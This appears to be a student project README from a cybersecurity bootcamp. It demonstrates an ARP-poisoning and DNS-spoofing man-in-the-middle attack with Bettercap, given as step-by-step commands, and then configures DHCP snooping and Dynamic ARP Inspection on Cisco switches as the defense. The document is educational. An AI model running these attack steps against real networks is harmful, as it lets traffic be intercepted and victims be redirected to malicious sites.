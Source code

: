 # Operation NetNabber
Fullstack Academy - Cybersecurity - Cohort 2208-fcb-et-cyb-pt

Team Members: Drago Bonacich and Troy Schmitz

NOTE: THIS DEMONSTRATION IS INTENDED FOR EDUCATIONAL PURPOSES ONLY. WE DO NOT CONDONE THE USE OF HACKING TOOLS FOR ILLEGAL PURPOSES.

Operation NetNabber was created as a two-phase demonstration, an attack and a defense strategy. Phase one utilizes a powerful network sniffing and spoofing tool known as Bettercap, which is included in the latest versions of Kali Linux. This tool allowed us to conduct an ARP poisoning attack between a Windows machine and its default gateway, letting us act as a Man in the Middle and giving us the ability to analyze any traffic between the two. Additionally, we were able to use a feature within the same tool to spoof the DNS cache when our target connected through us, and automatically navigated our victim’s browser to a malicious site running on our attacking machine. Phase two demonstrated the configuration of a defensive technology for these ARP poisoning attacks known as Dynamic ARP Inspection. This phase of our project was conducted on a network simulation tool from Cisco known as Packet Tracer. It allowed us to build a simulated network, demonstrate how to configure the correct settings to enable Dynamic ARP Inspection, and show the audience that an ARP spoofing attempt was not successful with this technology enabled.

# Link to Video Demonstration: 
https://youtu.be/8abLuPq8g7c



# Phase 1: Attack

Change IP Forwarding in Kali Linux so that auto packet drop is disabled:
sudo echo 1 > /proc/sys/net/ipv4/ip_forward

Change Windows registry to Enable IP Forwarding:
In registry editor browse to  HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
Modify the value of the parameter IPEnableRouter from 0 to 1 and close the registry editor window
Restart your system and execute the command "netsh interface ipv4 show interface <if id>" to verify whether IP forwarding is enabled.

Bettercap for Kali Linux (May not be natively installed and must be run with sudo privelages):
sudo bettercap

Probe the network to see a list of devices connected:
net.probe on

Lists all devices on the network with their MAC address and IP address
net.show

Tells the program to target not only the IP address, but also the gateway that it's connected to so that you can see traffic going both ways:
set arp.spoof.fullduplex true

Set your desired target IP address for ARP spoofing:
set arp.spoof.targets <ip address>

Setting up DNS spoof so that when the target connects to "wikidot.com" it redirects the traffic to the attacking Kali Linux apache server:
set dns.spoof.domains wikidot.com

Launch ARP poisoning attack:
arp.spoof on

Turns the DNS spoof on:
dns.spoof on

Turn the network sniffer on to see the traffic from the victim and the gateway:
net.sniff on



# Phase 2: Defense

*** The following instructions are for configuration of Dynamic ARP Inspection on Cisco managed switches ***

Open / Connect to the CLI of the Cisco managed switch.

Enter user execution mode:
en

Enter global configuration mode:
config t

Enable DHCP Snooping globally:
ip dhcp snooping

(DHCP snooping will disallow all DHCP "offer" and "acknowledge" packets through the switch, except on the ports we set as Trusted. This will prevent any other device from acting as the DHCP server)

Enter configuration mode for the interface connected to the DHCP server:
interface <dhcp_connected_interface>

Trust the interface connected to the DHCP server:
ip dhcp snooping trust

Exit the interface configuration and enter global configuration:
Ctrl + Z
config t

Enable Dynamic ARP Inspection on the desired VLAN:
ip arp inspection vlan <#_vlan>

